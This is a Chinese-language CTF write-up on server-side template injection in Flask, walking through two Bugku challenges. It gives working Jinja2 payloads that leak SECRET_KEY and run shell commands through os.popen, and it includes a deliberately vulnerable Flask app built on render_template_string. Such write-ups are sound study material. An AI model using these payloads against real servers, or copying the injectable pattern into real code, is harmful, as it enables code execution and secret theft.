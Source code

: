 ```yaml
---
author: "Yiming Shen"
date: 2021-07-22
lastmod: 2021-07-22
title: "SSTI类型题目积累及资料"
tags: [
    "CTF",
    "Web",
    "SSTI",
    "Note",
]
categories: [
    "Notes",
     "CTF",
]
math: true
draft: false
typora-root-url: ..\static\
---
```


## SSTI类型介绍

SSTI即服务端模板注入攻击，服务端接收用户输入，将其作为Web应用模板的一部分，渲染编译后执行了恶意内容，导致敏感信息泄露、代码执行等。

工具：*tplmap*、*hackbar*

按这张图可以测试出具体是什么模板引擎：

![img](https://upload.nsg.cn/uploads/images/202009/26/9/8sFfzWRJrj.png!large)

### 1. Simple_SSTI_1

[Simple_SSTI_1](https://ctf.bugku.com/challenges/detail/id/196.html?page=3)

进入环境后，使用开发者工具查看网站源代码，发现一句提示：

> You know, in the flask, We often set a secret_key variable.-->

根据提示可以得出

1. 采用了flask框架

2. flag很有可能存储在secret_key中

尝试get注入：`?flag={{config.SECRET_KEY}}`

成功~

### 2.Simple_SSTI_2

[Simple_SSTI_2](ctf.bugku.com/challenges/detail/id/203.html)

题目提示了进行模板注入，套用魔术方法。

> /?flag={{config.__class__.__init__.__globals__['os'].popen('ls >   >../').read()}}
>
>   

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210310204413618.png)

发现存在以下文件夹，利用cd命令进入查看后，发现第一个app文件夹内有flag文件

> cat ../app/flag

查看flag文件，得解。

#### 本题思考

利用Python-flask框架搭建简易网站复现SSTI漏洞如下：

```Python
from flask import Flask
from flask import render_template
from flask import render_template_string
from flask import request
app=Flask(__name__)
@app.route("/login")
def login():
    username=request.args.get("flag")
    html='''
    <h1> Python本地网站-Login %s</h1>
    '''%(username)
    return render_template_string(html)

if __name__=="__main__":
    app.run(debug=True)
```

浏览器访问127.0.0.1:5050/login 

搭建成功~

传入表达式：?flag={{2**64}}

真不错，用Python高精度计算

``` shell

?name={{\%27\%27.__class__.__mro__[1].__subclasses__()[213].__init__.__globals__[\%27__builtins__\%27][\%27__import__\%27](\%27os\%27).popen("dir").read()}}

```

使用Windows平台下的命令get注入即可访问本地文件。

